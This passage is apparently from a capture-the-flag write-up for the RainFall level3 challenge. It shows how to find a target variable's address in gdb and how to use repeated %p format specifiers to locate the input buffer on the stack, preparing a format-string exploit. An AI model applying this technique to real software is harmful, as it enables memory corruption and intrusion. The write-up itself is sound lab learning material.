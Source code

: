 - The line of `80484da` attribute the value of `m` to the register `eax`.
- The line of `80484df` compare the value of `eax` with `64`.

```sh
(gdb) x/s 0x804988c
0x804988c <m>:     ""
(gdb) 
```

### _We have the address of `m` : `0x804988c` ! ✅_

## 2. Finding the padding

There is one more thing I havn't talked about yet. When we passed the string `%p` to the program, it printed supposed random address, but it's not random : **for each address `%p` we pass, it print the top of stack**. So, we can find the address of the buffer by passing multiple `%p` to the program and located the position of the buffer in the stack. (If you don't understand don't worry, I will explain it more later, it's important) 

We proceed as follows :
- We pass a string of 4 characters, it will be stocked in the buffer in `32 bit`. We pass `AAAA` for easily find the address of the buffer, it will be `0x41414141`.
- We pass severeal `%p` to print the top of stack, the address of the buffer will must be printed.

```sh
level3@RainFall:~$ ./level3 
AAAA %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025
level3@RainFall:~$ 
```

We can see the address `0x41414141` is the address of our buffer (`A` is `0x41` in `ASCII`) : **the buffer is at the 4th position of the stack**.

Here's a schema to understand the stack :

```lua
<high address>
+-------------------------+  
| 0x25207025              |  <-- 6th value printed (Stack data)  
+-------------------------+  
| 0x20702520              |  <-- 5th value printed (Stack data)  
+-------------------------+  
| 0x41414141 ("AAAA")     |  <-- 4th value printed (Buffer, the string "AAAA")  
+-------------------------+  
| 0xb7ff37d0              |  <-- 3rd value printed (Stack data)  
+-------------------------+  
| 0xb7fd1ac0              |  <-- 2nd value printed (Stack data)  
+-------------------------+  
| 0x200                   |  <-- 1st value printed (Stack data)  
+-------------------------+  
<low address>
```

All we need to know is our `buffer` is at the 4th position of the stack, the other "junks" address ar not important.

